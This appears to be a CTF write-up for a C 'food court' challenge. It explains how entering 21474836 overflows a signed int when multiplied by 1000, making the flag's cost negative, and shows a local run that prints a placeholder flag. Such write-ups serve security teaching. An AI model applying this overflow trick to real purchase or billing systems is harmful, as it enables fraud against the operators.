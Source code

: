 ```c 

                    fgets(flag, sizeof(flag), fp);
                    puts(flag);
                }
                break;
            default:
                puts("Please select a valid item.");
        }
    }
}
```
The challenge name itself a big hint! lol🫂, the interger is declared as ```int```. 
we just need to give a number that belongs to out of the ```signed int``` range.

singed int range for 

- 2 or 4 bytes	(-32,768 to 32,767 or -2,147,483,648 to 2,147,483,647)

Lets understand the program, once input is taken, the program multiplied it with 1000,
and stores in int.

The overflow happens iff we give a number and when 1000 is multipled with it, the resultant must be greater than 2,147,483,647.

So we if input 21474836, then 21474836*1000 >> 2,147,483,647.
BAMM, done.

```sh
$ gcc court.c
$ ./a.out
Welcome to RGUKT Food Court!
We are giving free 200 RS wallet amount to our online customers.
Sadly, you dont have enough money to buy the tastiest dish named Flag :/? Or is it? 

Wallet Amount Rs200.
Menu: 
1. Noodles: 50
2. Biryani: 100
3. Soft Drink: 20
4. Flag: Rs 1000
0. Logout

Which item would you like to Order?
> 4
Input the number of buy the todays special dish - flag you want to buy?
> 21474836
That will cost Rs-480.
Order placed!
InvaderCTF{this_is_not_flag_flag_is_on_the_remote_server}
Wallet Amount Rs680.
Menu: 
1. Noodles: 50
2. Biryani: 100
3. Soft Drink: 20
4. Flag: Rs 1000
0. Logout

Which item would you like to Order?
> 

# BAMM, InvaderCTF{this_is_not_flag_flag_is_on_the_remote_server} here is our flag
```
